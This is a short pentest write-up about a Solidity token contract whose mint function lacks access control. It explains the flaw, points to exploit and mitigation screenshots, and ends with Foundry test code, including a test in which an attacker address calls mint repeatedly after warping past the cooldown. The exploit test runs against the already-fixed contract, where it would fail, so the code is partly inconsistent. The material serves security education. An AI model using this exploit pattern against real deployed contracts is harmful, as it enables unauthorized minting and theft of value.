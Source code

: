 # Pentest Report for unlimited-token-approval.sol

> Author: Tran Thanh Minh
> 

<aside>
🏦

The `GalaticToken` contract, is designed to facilitate token transfers, approvals, and minting functionalities. This contract incorporates basic security measures like cooldown restrictions on minting, a critical vulnerability exists that can be exploited to mint tokens repeatedly. 

</aside>

# Table of contents

---

# Vulnerability

The contract’s `mint` function lacks proper access control. Any address can call the `mint` function, allowing unauthorized users to mint tokens for themselves. This vulnerability is one of [the OWASP Smart Contract Top 10](https://owasp.org/www-project-smart-contract-top-10/2023/en/src/SC04-access-control-vulnerabilities.html), which belong to Access Control Vulnerabilities. 

# Exploit Development

The exploit targets the absence of access control in the `mint` function and abuses the cooldown mechanism, allowing an attacker to mint tokens repeatedly. Lastly, test if the exploit has successfully or not.

![Exploit test case of `mint` function of `GalaticToken` contract](921f0895-d6f9-40a0-89dd-e3c28352715c.png)

Exploit test case of `mint` function of `GalaticToken` contract

# Explanation of Exploit

The `mint` function doesn’t restrict access to authorized addressed, allowing any caller to mint tokens as long as the cooldown condition is met. By advancing the blockchain timestamp using `vm.warp` in the test environment, this can simulate the real-world scenarios, an attacker can bypass the cooldown timer and repeatedly mint tokens.  

![Exploit the `GalaticToken` contract successfully](image.png)

Exploit the `GalaticToken` contract successfully

# Mitigation

This vulnerability can be address with `OpenZepplin` ’s `Ownable` to restrict the contract owner or specific roles using access control mechanisms. 

![Mitigation for `GalaticToken` contract](802dd505-9838-40e0-9d36-955ffb33bc0e.png)

Mitigation for `GalaticToken` contract

Here is the result after mitigating: 

![image.png](image%201.png)

The mitigation has addressed the vulnerability successfully. 

# Resource

Test case and `GalaticToken` contract after mitigation: 

```solidity
// SPDX-License-Identifier: MIT
// Find the vuln, write the exploit POC, and how to mitigate
pragma solidity ^0.8.18;

import "forge-std/Test.sol";
import "../lib/openzeppelin-contracts/contracts/access/Ownable.sol";
contract ContractTest is Test {
    GalacticToken tokenContract;
    address deployer = vm.addr(1);
    address user = vm.addr(2);

    function setUp() public {
        vm.prank(deployer);
        tokenContract = new GalacticToken(deployer);
        vm.warp(block.timestamp + 1 hours);
        vm.prank(deployer);
        tokenContract.mint(5000);
    }

    function testTokenOperations() public {
        vm.startPrank(deployer);
        tokenContract.transfer(address(user), 2500);
        vm.stopPrank();
        assertEq(
            tokenContract.balanceOf(user),
            2500,
            "Initial transfer failed"
        );
        console.log("Test environment initialized successfully");
    }
    function testExploitMint() public {
        address attacker = vm.addr(3); // Initialize the attacker address
        vm.startPrank(attacker); // Start the prank with the attacker address
        for (uint i = 0; i < 5; i++) {
            vm.warp(block.timestamp + 1 hours); // Advance the blockchain time by 1 hour to bypass cooldown
            tokenContract.mint(1000); // Call the mint function to exploit the vulnerability
        }
        vm.stopPrank();
        assertEq(
            tokenContract.balanceOf(attacker),
            5000,
            "Exploit failed to mint the expected amount"
        );
        assertEq(
            tokenContract.totalSupply(),
            10000,
            "Total supply mismatch after exploit"
        );
    }

    receive() external payable {}
}

interface IERC20 {
    function totalSupply() external view returns (uint);
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
    function allowance(
        address owner,
        address spender
    ) external view returns (uint);
    function approve(address spender, uint amount) external returns (bool);
    function transferFrom(
        address sender,
        address recipient,
        uint amount
    ) external returns (bool);
    event Transfer(address indexed from, address indexed to, uint value);
    event Approval(address indexed owner, address indexed spender, uint value);
}

contract GalacticToken is IERC20, Ownable {
    uint public totalSupply;
    mapping(address => uint) public balanceOf;
    mapping(address => mapping(address => uint)) public allowance;
    string public name = "GalacticCredit";
    string public symbol = "GLXC";
    uint8 public decimals = 18;
    uint256 private lastMintTime;
    uint256 private constant MINT_COOLDOWN = 1 hours;
    constructor(address initialOwner) Ownable(initialOwner) {}
    modifier onlyPositive(uint amount) {
        require(amount > 0, "Amount must be positive");
        _;
    }
    function transfer(
        address recipient,
        uint amount
    ) external onlyPositive(amount) returns (bool) {
        require(recipient != address(0), "Invalid recipient");
        require(balanceOf[msg.sender] >= amount, "Insufficient balance");
        balanceOf[msg.sender] -= amount;
        balanceOf[recipient] += amount;
        emit Transfer(msg.sender, recipient, amount);
        return true;
    }

    function approve(address spender, uint amount) external returns (bool) {
        require(spender != address(0), "Invalid spender");
        allowance[msg.sender][spender] = amount;
        emit Approval(msg.sender, spender, amount);
        return true;
    }

    function transferFrom(
        address sender,
        address recipient,
        uint amount
    ) external onlyPositive(amount) returns (bool) {
        require(recipient != address(0), "Invalid recipient");
        require(balanceOf[sender] >= amount, "Insufficient balance");
        require(
            allowance[sender][msg.sender] >= amount,
            "Insufficient allowance"
        );
        allowance[sender][msg.sender] -= amount;
        balanceOf[sender] -= amount;
        balanceOf[recipient] += amount;
        emit Transfer(sender, recipient, amount);
        return true;
    }

    function mint(uint amount) external onlyOwner {
        require(
            block.timestamp >= lastMintTime + MINT_COOLDOWN,
            "Minting in cooldown"
        );
        balanceOf[msg.sender] += amount;
        totalSupply += amount;
        lastMintTime = block.timestamp;
        emit Transfer(address(0), msg.sender, amount);
    }

    function burn(uint amount) external onlyPositive(amount) {
        require(balanceOf[msg.sender] >= amount, "Insufficient balance");
        balanceOf[msg.sender] -= amount;
        totalSupply -= amount;
        emit Transfer(msg.sender, address(0), amount);
    }
}

```